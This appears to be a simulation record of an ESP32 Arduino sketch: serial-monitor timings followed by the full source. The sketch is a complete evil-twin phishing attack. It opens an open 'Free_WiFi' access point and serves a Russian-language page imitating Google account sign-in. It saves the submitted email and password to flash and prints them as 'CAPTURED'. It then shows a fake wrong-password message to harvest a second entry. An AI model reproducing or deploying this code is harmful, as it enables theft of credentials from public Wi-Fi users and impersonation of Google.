
A sketch run on a simulated ESP32. Parts: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band). EEPROM starts erased.

Above: at 2.2 s.
2.3 s: HTTP request GET /login?email=1&password=1 received
At 3.4 s:

3.8 s: HTTP request GET /login?email=120&password=120 received
At 4.5 s:


Measured:
- after the input at 2.3 s, the serial monitor: prints a new line at once (image 1)
- after the input at 3.8 s, the serial monitor: prints a new line at once (image 2)

The sketch:

esp32-v01.ino
```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <ESPmDNS.h>
#include <nvs_flash.h>

const char* ap_ssid = "Free_WiFi";
const char* ap_password = NULL;

WebServer server(80);

String captured_email = "";
String captured_password = "";

// HTML страница из вашего кода (сжата для экономии памяти)
const char* login_html = R"rawliteral(
<!DOCTYPE html>
<html>
<head>
<title>Вход — Google Аккаунт</title>
<meta charset='UTF-8'>
<meta name='viewport' content='width=device-width, initial-scale=1.0'>
<style>
body{display:flex;font-family:Arial,sans-serif;justify-content:center;align-items:center;background-color:#F0F4F9;height:90vh;margin:0;}
.container{margin:auto;padding:20px;width:80%;max-width:800px;}
.form-container{background:#FFFFFF;border-radius:25px;padding:20px;}
h1{text-align:center;font-size:28px;margin-bottom:20px;}
.containertitle{color:#202124;font-size:36px;padding:15px 0px 20px 0px;}
.containersubtitle{color:#202124;font-size:16px;padding:0px 0px 30px 0px;}
.input-container{position:relative;margin-bottom:20px;}
.input-field{outline:none;width:100%;height:50px;padding:12px 10px;box-sizing:border-box;border:1px solid #6b6b6b;border-radius:4px;}
.label{position:absolute;left:10px;top:16px;transition:0.2s;color:#6b6b6b;pointer-events:none;background:white;padding:0 5px;font-size:15px;}
.input-field:focus+.label,.input-field:not(:placeholder-shown)+.label{top:-7px;left:10px;font-size:12px;}
.submit-btn{outline:none;background:#0B57D0;color:white;border:none;padding:12px 20px;border-radius:20px;font-size:0.875rem;cursor:pointer;}
.submit-btn:hover{background:#0E4EB5;}
.containerbtn{display:flex;justify-content:end;padding:30px 0px 25px 0px;}
.badd{color:#B3261E;font-size:14px;display:none;margin-top:-10px;margin-bottom:10px;}
.baddd{color:#B3261E;font-size:14px;display:none;margin-top:-10px;margin-bottom:10px;}
</style>
</head>
<body>
<div class='container'>
<div class=form-container>
<div id="logo"><svg xmlns="http://www.w3.org/2000/svg" width="48" height="48" viewBox="0 0 48 48"><path fill="#4285F4" d="M39.2 24.45c0-1.55-.16-3.04-.43-4.45H20v8h10.73c-.45 2.53-1.86 4.68-4 6.11v5.05h6.5c3.78-3.48 5.97-8.62 5.97-14.71z"></path><path fill="#34A853" d="M20 44c5.4 0 9.92-1.79 13.24-4.84l-6.5-5.05C24.95 35.3 22.67 36 20 36c-5.19 0-9.59-3.51-11.15-8.23h-6.7v5.2C5.43 39.51 12.18 44 20 44z"></path><path fill="#FABB05" d="M8.85 27.77c-.4-1.19-.62-2.46-.62-3.77s.22-2.58.62-3.77v-5.2h-6.7C.78 17.73 0 20.77 0 24s.78 6.27 2.14 8.97l6.71-5.2z"></path><path fill="#E94235" d="M20 12c2.93 0 5.55 1.01 7.62 2.98l5.76-5.76C29.92 5.98 25.39 4 20 4 12.18 4 5.43 8.49 2.14 15.03l6.7 5.2C10.41 15.51 14.81 12 20 12z"></path></svg></div>
<div class='containertitle'>Вход</div>
<div class='containersubtitle'>Авторизация в сети</div>
<div class='input-container'><input name='email' id='email' class='input-field' type='text' placeholder=' '><label class='label'>Телефон или адрес эл. почты</label></div>
<div id='badmail' class='badd'>Введите адрес электронной почты или номер телефона.</div>
<div class='input-container'><input name='password' id='password' class='input-field' type='password' placeholder=' '><label class='label'>Введите пароль</label></div>
<div id='badpass' class='baddd'>Введите пароль.</div>
<div class='containerbtn'><button id='submitBtn' class='submit-btn'>Войти</button></div>
</div>
</div>
<script>
document.getElementById('submitBtn').addEventListener('click',function(){
var email=document.getElementById('email').value.trim();
var password=document.getElementById('password').value.trim();
if(email===''){document.getElementById('badmail').style.display='block';}
else{document.getElementById('badmail').style.display='none';}
if(password===''){document.getElementById('badpass').style.display='block';}
else{document.getElementById('badpass').style.display='none';}
if(email!==''&&password!==''){
fetch('/login?email='+encodeURIComponent(email)+'&password='+encodeURIComponent(password))
.then(function(){document.getElementById('badpass').style.display='block';document.getElementById('badpass').innerHTML='Неверный пароль.';})
.catch(function(){});
}
});
</script>
</body>
</html>
)rawliteral";

void handleRoot() {
  server.send(200, "text/html", login_html);
}

void handleLogin() {
  if (server.hasArg("email") && server.hasArg("password")) {
    captured_email = server.arg("email");
    captured_password = server.arg("password");

    // Сохраняем в NVS
    nvs_flash_init();
    nvs_handle_t nvs;
    nvs_open("storage", NVS_READWRITE, &nvs);
    nvs_set_str(nvs, "email", captured_email.c_str());
    nvs_set_str(nvs, "pass", captured_password.c_str());
    nvs_commit(nvs);
    nvs_close(nvs);

    // Выводим в Serial
    Serial.println("========== CAPTURED ==========");
    Serial.print("Email: ");
    Serial.println(captured_email);
    Serial.print("Password: ");
    Serial.println(captured_password);
    Serial.println("===============================");

    // Отправляем ответ (имитация ошибки для повторного ввода)
    server.send(200, "text/html", "<html><body><script>setTimeout(function(){window.location.href='/';},2000);</script><p>Неверный пароль. Перенаправление...</p></body></html>");
  } else {
    server.send(400, "text/plain", "Bad request");
  }
}

void setup() {
  Serial.begin(115200);
  delay(1000);

  WiFi.mode(WIFI_AP);
  WiFi.softAP(ap_ssid, ap_password, 6, 0, 4);

  Serial.println("[SYSTEM] Fake AP started: Free_WiFi");
  Serial.print("[SYSTEM] IP: ");
  Serial.println(WiFi.softAPIP());

  server.on("/", handleRoot);
  server.on("/login", handleLogin);
  server.begin();

  Serial.println("[SYSTEM] Web server started");
}

void loop() {
  server.handleClient();
  delay(10);
}
```
